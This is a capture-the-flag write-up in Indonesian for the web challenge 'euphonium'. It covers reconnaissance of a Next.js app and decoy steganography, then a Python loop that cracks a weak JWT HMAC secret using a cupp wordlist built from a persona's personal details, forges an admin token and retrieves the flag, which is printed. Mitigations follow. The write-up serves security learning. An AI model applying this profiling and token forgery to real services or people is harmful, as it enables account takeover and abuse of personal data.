






# euphonium — FGTE 2025

| | |
|---|---|
| **Category** | Web |
| **Difficulty** | Hard |
| **Points** | 160 |
| **Solves** | 31 |
| **Author** | aria |
| **URL** | `https://euphonium-fgte.vercel.app` |

> *Bukankah Ini My Kisah..*
> *Kumiko menyembunyikan sesuatu* 🎺
> ⚠️ *Note: Tidak perlu melakukan brute force di bagian web*

**🚩 Flag:** `FGTE{Jwt_3uph0n1um_Kum1k0_4ever}`

---

## TL;DR

1. App Next.js pakai **JWT HS256** di cookie `token` (`{sub, role}`). Flag ada di `/api/admin`, hanya untuk `role:"admin"`.
2. `robots.txt` → `/static/waifu_aria.jpeg` ("personal data"). Gambar itu penuh **3 flag decoy** → **jebakan**. Yang asli cuma **profil `# My Kisah`** (nama, nickname, tanggal lahir, hobi).
3. Sesuai hint: **buat wordlist dari info pribadi + hobi** (tool **`cupp`**) lalu **crack secret JWT** (🍪 = cookie). → `euphonium@!`
4. **Forge** token `role:"admin"` dengan secret itu → buka `/api/admin` → **flag**.

> **"Tidak perlu brute force di web"** = jangan pakai rockyou/hashcat generik. Secret-nya adalah hasil *password profiling* dari data pribadi target — wordlist kecil & terarah.

---

## 1. Reconnaissance

Halaman depan: aplikasi fanpage *Hibike! Euphonium*.



Dari `_buildManifest.js` (Next.js) terlihat daftar halaman: `/`, `/admin`, `/dashboard`, `/signin`, `/signup`. Chunk JS client memakai 5 endpoint API:

```
/api/signup   /api/signin   /api/dashboard   /api/admin   /api/logout
```

Alur autentikasi:

```js
// /api/signin & /api/signup → Set-Cookie: token=<JWT>; HttpOnly
// JWT = HS256, payload: {"sub":"<user>","role":"user","iat":...,"exp":...}
```

```js
// pages/admin.js (dari bundle)
fetch("/api/admin")
  .then(e => { if (!e.ok) throw Error("Forbidden"); return e.json() })
  .then(e => setFlag(e.flag));   // <-- flag muncul kalau role == admin
```



Daftar + login user biasa → token selalu `role:"user"`. `/api/admin` dengan token user → **Forbidden**.



**Target jelas:** dapatkan JWT valid dengan `role:"admin"`.

Hal-hal yang **sudah dipastikan tidak bisa** (dead-end):

| Teknik | Hasil |
|---|---|
| `alg:none` (+ varian `None/NONE`) | ❌ `Invalid token` |
| Mass-assignment / prototype pollution (`role`,`isAdmin`,`__proto__`,`level`,`scope`, …25+ field) | ❌ role tetap `user` |
| Login bypass `admin` (NoSQL `$ne`, type-juggling, SQLi) | ❌ `Invalid username/password` |
| `kid` / header injection, bypass header `X-Forwarded-For: 127.0.0.1` dll | ❌ Forbidden |
| Crack secret pakai **rockyou (14,3jt)** / default jwt.io | ❌ bukan kata kamus |

→ Satu-satunya jalan: **forge JWT**, artinya butuh **HMAC secret**.

---

## 2. Jebakan: Stego Decoy 🪤

`robots.txt` memberi petunjuk pertama:



```
User-agent: *
Disallow: /admin
# Private documents - do not crawl
Allow: /static/waifu_aria.jpeg
# Curious? Image here contains personal data.
```

`waifu_aria.jpeg` berisi **tiga** flag palsu (lihat [`artifacts/decoy-analysis.txt`](artifacts/decoy-analysis.txt)):

| Lokasi | Isi | Arti |
|---|---|---|
| JPEG `COM` | `FGTE{D3c0y_B4ng_E4aaaa}` | *Decoy Bang* |
| EXIF `XPComment` | `FLAG Sepertinya ada di Akhir Filee..` | umpan ke EOF |
| Trailer (setelah `FFD9`) | `FGTE{D3c0Y_7uG4_H3H3_C0ba_C4r1_L4G1}` | *Decoy juga hehe, **coba cari lagi*** |

Hint `Kumiko menyembunyikan sesuatu` mengarah ke file `/static/kumiko.jpeg`. Tapi membandingkan kedua gambar membuktikan **tidak ada stego piksel sama sekali**:

```text
kumiko.jpeg scan len : 126071
waifu  scan len      : 126071
scan identical?      : True        # DCT identik → tak mungkin ada steghide/outguess/F5
```

> steghide/stegseek (rockyou 14,3jt + 5.053 kata tema) + outguess → **nihil**. Gambar = murni pengalih perhatian.

**Intel yang BENAR** dari jebakan ini bukan flag-nya, tapi **profil korban** (`# My Kisah`):

```yaml
name: Kumiko Oumae
nickname: Kumiko
birthdate: 15 April 2000
likes: euphonium            # <-- hobi
```

---

## 3. Inti Kerentanan: Weak JWT Secret via OSINT Password Profiling

Hint resmi dari panitia:

> **Hint 1:** *Kamu sudah tahu siapa yang ada di foto dan apa yang dia suka. Pernah coba membuat wordlist dari info pribadi + hobi target?* 😉
> **Hint 2:** 🍪

Terjemahan:
- **wordlist dari info pribadi + hobi** = tool **`cupp`** (Common User Passwords Profiler).
- 🍪 **cookie** = target crack-nya adalah **JWT**.
- *"No brute force di web"* = jangan pakai wordlist generik; pakai wordlist **terarah** hasil profiling.

Jadi secret HS256 = password lemah yang dibangun dari data pribadi Kumiko → cocok di-crack dengan wordlist cupp (± 18 ribu kandidat), **bukan** rockyou.

---

## 4. Exploitation

### 4.1 Generate wordlist cupp dari profil Kumiko

```
First Name : kumiko
Surname    : oumae
Nickname   : kumiko
Birthdate  : 15042000
Keywords   : euphonium, kitauji, hibike, reina, trumpet   # hobi + terkait
Special chars? Y   |   Random numbers? Y   |   Leet mode? Y
```

cupp menghasilkan **18.768** kandidat (sudah difilter panjang 6–11 char sesuai default `cupp.cfg`).

### 4.2 Crack secret JWT

Uji tiap kandidat sebagai kunci HMAC terhadap signature token yang kita punya:

```python
import hmac, hashlib, base64
h, p, s = token.split(".")
msg, tgt = (h+"."+p).encode(), base64.urlsafe_b64decode(s + "==")
for w in wordlist:
    if hmac.compare_digest(hmac.new(w.encode(), msg, hashlib.sha256).digest(), tgt):
        print("SECRET =", w)          # -> euphonium@!
```

```
[*] cupp generated 18768 candidates
[+] JWT secret cracked: 'euphonium@!'
```

> `euphonium` (hobi) + `@!` (mutasi special-char cupp). Karena ada simbol, secret ini **tidak ada** di rockyou → persis alasan "no brute force di web".

### 4.3 Forge token admin & ambil flag

```python
payload = {"sub":"admin","role":"admin","iat":now,"exp":now+31536000}
admin_token = HS256_sign(payload, "euphonium@!")
# Cookie: token=<admin_token>  ->  GET /api/admin
# {"flag":"FGTE{Jwt_3uph0n1um_Kum1k0_4ever}"}
```

Buktikan di browser — inject cookie hasil forge, dashboard langsung jadi **admin**:



Lalu `/api/admin` memberikan flag:



Script lengkap end-to-end: [`exploit/solve.py`](exploit/solve.py)

```
$ python solve.py
[*] cupp generated 18768 candidates
[+] JWT secret cracked: 'euphonium@!'
[+] forged admin token: eyJhbGciOiJIUzI1NiI...
[+] /api/admin -> {"flag":"FGTE{Jwt_3uph0n1um_Kum1k0_4ever}"}
```

---

## 5. Flag

```
FGTE{Jwt_3uph0n1um_Kum1k0_4ever}
```

Nama flag-nya sendiri mengonfirmasi jalur solve: **Jwt + euphonium + Kumiko**.

---

## 6. Mitigation

- **Jangan** pakai secret JWT yang bisa ditebak / berasal dari data personal. Pakai kunci acak ≥ 256-bit dari CSPRNG (`crypto.randomBytes(32)`), simpan di env/secret manager.
- Batasi algoritma di verifier (`algorithms: ['HS256']`) — sudah benar di sini.
- Jangan menaruh data pribadi "beneran" yang dapat dijadikan bahan password profiling di aset publik.

## 7. Lessons Learned

- **Jangan terjebak rabbit-hole stego.** Buktikan dulu apakah benar ada payload (bandingkan scan/DCT, cek `steghide info`) sebelum habiskan waktu nge-crack passphrase.
- Data "personal" (nama, tanggal lahir, hobi) = bahan emas untuk **cupp**. Weak-secret JWT sering bisa dipecah dengan wordlist OSINT yang kecil, bukan rockyou.
- Baca hint secara harfiah: *"info pribadi + hobi"* → cupp; 🍪 → cookie/JWT.

---

### Struktur folder

```
euphonium-Web-Hard/
├── writeup.md
├── exploit/
│   └── solve.py              # cupp-gen + crack + forge + fetch (stdlib saja)
├── screenshots/
│   ├── 01-homepage.jpg
│   ├── 02-signin.jpg
│   ├── 03-admin-forbidden.jpg
│   ├── 04-dashboard-admin.jpg
│   ├── 05-flag.jpg
│   └── 06-robots.jpg
└── artifacts/
    ├── waifu_aria.jpeg       # gambar decoy
    └── decoy-analysis.txt    # rincian 3 flag palsu
```
